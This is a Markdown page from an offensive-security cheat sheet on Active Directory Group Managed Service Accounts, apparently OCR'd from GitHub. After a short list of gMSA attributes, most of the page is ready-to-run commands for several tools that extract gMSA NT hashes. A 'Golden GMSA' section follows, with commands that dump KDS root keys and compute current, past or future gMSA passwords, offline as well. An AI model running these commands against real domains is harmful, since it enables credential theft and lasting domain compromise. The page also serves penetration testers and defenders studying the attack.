 # Password - GMSA

## Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.


### GMSA Attributes in the Active Directory 

* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


### Extract NT hash from the Active Directory

* [netexec](https://github.com/Pennyw0rth/NetExec)
  ```ps1
  # Use --lsa to get GMSA ID
  netexec ldap domain.lab -u user -p 'PWD' --gmsa-convert-id 00[...]99
  netexec ldap domain.lab -u user -p 'PWD' --gmsa-decrypt-lsa '_SC_GMSA_{[...]}_.....'
  ```

* [CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)
  ```ps1
  bloodyAD --host 10.10.10.10 -d crash.lab -u john -p 'Pass123*' get search --filter '(ObjectClass=msDS-GroupManagedServiceAccount)' --attr msDS-ManagedPassword
  ```

* [rvazarkar/GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)
  ```ps1
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)
   ```powershell
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell
  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [kdejoyce/gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module


## Forging Golden GMSA

> One notable difference between a **Golden Ticket** attack and the **Golden GMSA** attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

:warning: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and `ManagedPasswordIntervalInDays`, so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

* Using [GoldenGMSA](https://github.com/Semperis/GoldenGMSA)
    ```ps1
    # Enumerate all gMSAs
    GoldenGMSA.exe gmsainfo
    # Query for a specific gMSA
    GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112

    # Dump all KDS Root Keys
    GoldenGMSA.exe kdsinfo
    # Dump a specific KDS Root Key
    GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

    # Compute gMSA password
    # --sid <gMSA SID>: SID of the gMSA (required)
    # --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key
    # --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires privileged access to the domain
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB[...]G2/M= # requires LDAP access
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45U[...]SM0R7djG2/M= --pwdid AQAAA[..]AAA # Offline mode
    ```


## References

* [Introducing the Golden GMSA Attack - YUVAL GORDON - March 01, 2022](https://www.semperis.com/blog/golden-gmsa-attack/)
* [Hunt for the gMSA secrets - Dr Nestori Syynimaa (@DrAzureAD) - August 29, 2022](https://aadinternals.com/post/gmsa/)
* [Practical guide for Golden SAML - Practical guide step by step to create golden SAML](https://nodauf.dev/p/practical-guide-for-golden-saml/)